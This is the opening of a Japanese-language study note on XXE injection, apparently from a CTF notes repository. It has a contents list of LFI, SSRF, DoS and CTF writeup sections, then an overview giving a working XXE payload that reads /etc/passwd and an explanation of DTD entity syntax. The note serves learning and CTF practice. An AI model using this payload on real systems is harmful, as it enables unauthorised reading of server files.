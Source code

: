 

**Table of Contents**

- [XXE Injection](#xxe-injection)
  - [概要](#%E6%A6%82%E8%A6%81)
  - [例](#%E4%BE%8B)
    - [LFI](#lfi)
    - [Blind LFI](#blind-lfi)
    - [SSRF](#ssrf)
    - [DOS](#dos)
- [writeup](#writeup)
  - [OOB XXE (obtain index.php / indentify webshell's fullpath)](#oob-xxe-obtain-indexphp--indentify-webshells-fullpath)
  - [OOB XXE (SSRF / 二重XXE)](#oob-xxe-ssrf--%E4%BA%8C%E9%87%8Dxxe)
  - [XXE (normal XXE / identify webroot or /proc/self/cwd)](#xxe-normal-xxe--identify-webroot-or-procselfcwd)
  - [XXE (normal XXE / upload XMLfile)](#xxe-normal-xxe--upload-xmlfile)
  - [XXE (normal XXE / request XMLfile's URL)](#xxe-normal-xxe--request-xmlfiles-url)
  - [XXE (SVG XXE / identify fullpath as /proc/self/cwd/flag.txt)](#xxe-svg-xxe--identify-fullpath-as-procselfcwdflagtxt)
  - [OOB XXE (create DTDfile into server / DNS SubDomain)](#oob-xxe-create-dtdfile-into-server--dns-subdomain)
  - [OOB XXE (SVG XXE / upload PHARfile / PHP Object Injection to OS Command Injection)](#oob-xxe-svg-xxe--upload-pharfile--php-object-injection-to-os-command-injection)
  - [sample](#sample)
- [メモ](#%E3%83%A1%E3%83%A2)
- [参考](#%E5%8F%82%E8%80%83)



# XXE Injection
## 概要

以下のようなXML形式でのリクエストがある場合、   
```txt
POST http://example.com/xml HTTP/1.1

<foo>
Hello World
</foo>
```
改竄して以下を送信することで、応答にリクエストの結果が返される場合は`/etc/passwd`が得られる！   
```txt
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</foo>
```
これはXMLの`<!ENTITY `タグで内部または外部にあるデータ(エンティティ)を挿入できることができるような`DTD`構文を使った機能が原因。   
`<!DOCTYPE`内がDTD。   
`<!ELEMENT foo ANY>`が構造の定義で、`<!ENTITY `からが実体宣言。DTDでは構造定義と実体宣言を行う必要があるっぽい。   
内部エンティティは`<!ENTITY test "aaaa">`みたいに定義する。   
外部エンティティは`<!ENTITY xxe SYSTEM "file:///etc/passwd">`みたいに`SYSTEM`を使って実体参照を行う。   
   
